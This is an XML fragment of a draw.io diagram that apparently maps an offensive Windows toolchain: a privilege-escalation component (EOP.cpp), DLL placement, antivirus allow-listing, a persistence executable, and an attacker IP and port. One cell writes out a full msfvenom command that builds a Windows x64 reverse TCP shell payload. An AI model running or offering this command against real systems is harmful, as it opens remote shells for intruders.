        <mxCell id="P6aCfQ930mBBJoiv-hOj-36" value="Attacker IP" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;shadow=0;" vertex="1" parent="P6aCfQ930mBBJoiv-hOj-35">
          <mxGeometry y="30" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-37" value="Port (9101)" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;shadow=0;" vertex="1" parent="P6aCfQ930mBBJoiv-hOj-35">
          <mxGeometry y="60" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-38" value="msfvenom -a x64 --platform Windows -p windows/x64/shell_reverse_tcp -n 1800 --pad-nops LHOST=IP LPORT=Port -f raw EXITFUNC=thread &amp;gt; port#.raw" style="shape=document;whiteSpace=wrap;html=1;boundedLbl=1;fillColor=#FF6666;" vertex="1" parent="P6aCfQ930mBBJoiv-hOj-30">
          <mxGeometry x="710" y="60" width="570" height="50" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-41" value="9001.cpp&#xa;9002.cpp" style="swimlane;fontStyle=5;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;fillColor=#FF6666;" vertex="1" parent="P6aCfQ930mBBJoiv-hOj-30">
          <mxGeometry x="370" y="40" width="150" height="70" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-42" value="Medium IL Tools Directory&#xa;(9101.png)" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;" vertex="1" parent="P6aCfQ930mBBJoiv-hOj-41">
          <mxGeometry y="30" width="150" height="40" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-43" value="EOP.cpp" style="swimlane;fontStyle=5;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;shadow=0;fillColor=#FF6666;" vertex="1" parent="P6aCfQ930mBBJoiv-hOj-30">
          <mxGeometry x="30" y="40" width="140" height="90" as="geometry">
            <mxRectangle x="-827" y="400" width="90" height="30" as="alternateBounds" />
          </mxGeometry>
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-44" value="Medium IL Tools Directory&#xa;(DEVOBJ.dll)" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;shadow=0;" vertex="1" parent="P6aCfQ930mBBJoiv-hOj-43">
          <mxGeometry y="30" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-45" value="Medium IL Tools Directory&#xa;(Allow-list A/V)" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;shadow=0;" vertex="1" parent="P6aCfQ930mBBJoiv-hOj-43">
          <mxGeometry y="60" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-39" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;html=1;jettySize=auto;orthogonalLoop=1;fontSize=11;endArrow=block;endFill=0;endSize=8;strokeWidth=1;shadow=0;labelBackgroundColor=none;entryX=1;entryY=0.5;entryDx=0;entryDy=0;exitX=0;exitY=0.5;exitDx=0;exitDy=0;" edge="1" parent="WIyWlLk6GJQsqaUBKTNV-1" source="WIyWlLk6GJQsqaUBKTNV-10" target="P6aCfQ930mBBJoiv-hOj-30">
          <mxGeometry y="10" relative="1" as="geometry">
            <mxPoint as="offset" />
            <mxPoint x="480" y="110" as="targetPoint" />
            <mxPoint x="315" y="230" as="sourcePoint" />
          </mxGeometry>
        </mxCell>
      </root>
    </mxGraphModel>
  </diagram>
  <diagram id="bf5JVRvlxyUvXe34iGP1" name="Pers_Medium.exe">
    <mxGraphModel dx="1332" dy="491" grid="1" gridSize="10" guides="1" tooltips="1" connect="1" arrows="1" fold="1" page="1" pageScale="1" pageWidth="850" pageHeight="1100" math="0" shadow="0">
      <root>
        <mxCell id="0" />
        <mxCell id="1" parent="0" />
      </root>
    </mxGraphModel>
  </diagram>
</mxfile>

